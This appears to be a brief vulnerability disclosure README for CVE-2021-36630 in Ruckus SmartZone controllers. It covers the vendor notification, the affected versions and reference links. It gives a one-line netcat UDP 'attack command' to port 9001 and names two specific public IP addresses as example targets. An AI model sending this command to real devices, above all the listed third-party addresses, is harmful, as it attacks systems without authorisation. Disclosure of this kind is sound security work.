

# CVE-2021-36630

The SmartZone series devices of Ruckus have security risks. After notifying the manufacturer, they actively organized technical personnel to conduct investigations. During this period, we also provided security suggestions and verification methods many times. On July 19, the company officially issued a safety announcement.

# send request

> Attack command: echo "" | nc -4u <ip:address> 9001
> 
> ipaddress example: 62.210.8.110?111.107.251.71(RuckusWireless SZ ip)
> 

# example

# Affected version
> SmartZone-100 - all
> all - Virtual SmartZone

# Reference link

> http://ruckus.com
> http://smartzone-100.com
> https://anquan.baidu.com/article/1434